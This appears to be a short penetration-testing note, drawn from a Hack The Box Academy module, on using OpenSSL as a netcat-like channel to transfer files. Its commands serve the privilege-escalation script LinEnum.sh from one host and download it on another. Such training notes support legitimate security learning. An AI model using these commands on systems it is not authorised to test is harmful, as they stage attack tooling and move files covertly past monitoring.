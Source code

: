 Using OpenSSL to send and receive files
#########################################

Date: 2024-11-04 10:54

Status:

Tags: :ref:`File Transfers <File Transfers>`

Description
**************

OpenSSL can be used like netcat and is common on most distros

Step 1: Create a certificate

.. code-block:: console

   openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Step 2: start the server where the file is to be sent from

.. code-block:: console

   openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh

Step 3: Send the file from the other server

.. code-block:: console

   Temen@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh

References
****************
https://academy.hackthebox.com/module/24/section/1575
